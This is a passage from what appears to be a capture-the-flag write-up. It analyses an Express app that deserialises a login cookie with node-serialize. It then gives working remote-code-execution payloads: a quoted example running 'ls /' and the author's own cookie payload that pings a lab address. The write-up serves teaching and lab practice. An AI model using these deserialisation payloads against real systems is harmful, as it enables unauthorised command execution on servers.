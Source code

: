         c = serialize.unserialize(c)
    
        if (c.sign == (crypto.createHash('md5').update(cookie_secret + c.user).digest('hex')) ){
            return true
        } else {
            return false
        }
    }
    
    
    app.get('/', async (req, res) => {
        const articles = await Article.find().sort({
            createdAt: 'desc'
        })
        res.render('articles/index', { articles: articles, ip: req.socket.remoteAddress, authenticated: authenticated(req.cookies.auth) })
    })
    
    app.use('/articles', articleRouter)
    app.use('/login', loginRouter)
    
    
    app.listen(5000)
    

What jumps out to me is the import of `node-serialize`, which implies
serialization is in use, which is always a risky path.

The `unserialize` function is being called on `c`, which is likely the cookie.
Looking at the cookie, it’s clearly URL encoded JSON:

    
    
    %7B%22user%22%3A%22admin%22%2C%22sign%22%3A%2223e112072945418601deb47d9a6c7de8%22%7D
    

This decodes to:

    
    
    {"user":"admin","sign":"23e112072945418601deb47d9a6c7de8"}
    

It is worth noting that all the non-letters/digits in the cookie are URL
encoded.

#### Exploit POC

[This blog post](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-
deserialization-bug-for-remote-code-execution/) does a nice job writing up the
path to exploit node-serialize. The example payload they give is:

    
    
    {"rce":"_$$ND_FUNC$$_function (){require('child_process').exec('ls /',
    function(error, stdout, stderr) { console.log(stdout) });}()"}
    

The source code makes it clear that this is checked before the `user` or
`sign` fields, so I can just make this my cookie. I’ll start with:

    
    
    {"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 1 10.10.14.8', function(error, stdout, stderr){console.log(stdout)});}()"}
    